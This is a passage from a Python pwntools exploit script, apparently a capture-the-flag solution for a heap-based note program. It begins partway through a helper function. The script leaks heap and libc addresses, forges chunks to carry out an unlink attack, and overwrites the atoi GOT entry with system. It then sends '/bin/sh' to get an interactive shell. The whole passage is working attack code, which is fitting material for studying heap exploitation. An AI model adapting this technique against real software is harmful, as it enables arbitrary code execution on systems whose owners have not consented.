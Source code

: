 ```python
    r.sendlineafter("choice: ","4")
    r.sendlineafter("Note number: ",str(index))

def exp():
    #leak
    print "start"
    new("1")
    new("2")
    new("3")
    new("4")
    free(0)
    free(2)
    new("aaaaaaaa")
    new("aaaaaaaa")
    show()
    r.recv(11)
    s = r.recv(4)
    heap_base = u64(s+'\x00'*4)
    print "heap_base : 0x%x"%heap_base
    r.recv(17)
    s = r.recv(6)
    main_arena = u64(s+'\x00'*2)
    print "mainarena : 0x%x"%main_arena
    chunklist0 = heap_base - 0x1910
    #del
    free(0)
    free(1)
    free(2)
    free(3)

    #unlink
    new("1")
    new("2")
    new("3")

    free(0)
    free(1)
    free(2)
    payload = ""
    payload += "a"*8 + p64(0x81)
    payload += p64(chunklist0-0x18) + p64(chunklist0-0x10)
    payload += p64(0x0) * 2 * 6
    payload += p64(0x80) + p64(0x90)
    payload += p64(0x0) * 2 * 8
    payload += "a"*8 + p64(0x91)
    new(payload)
    free(1)   #unlink  ptr[0] -> &ptr[0] - 0x18
    #attack
    libc_base = main_arena - 88 - libc_mainarena
    print "libc_base : 0x%x"%libc_base
    system = libc_base + libc_system
    print "sytem_add : 0x%x"%system
    #getshell
    payload1 = p64(0x1) + p64(0x1)
    payload1 += p64(0x120) + p64(chunklist0-0x18)
    payload1 += p64(0x1) + p64(8) + p64(got_atoi)
    payload1 += p64(0)*2 * 14 + p64(0)
    print hex(len(payload1))
    edit(0,payload1)
    edit(1,p64(system))
    r.sendline("/bin/sh")
    r.interactive()

```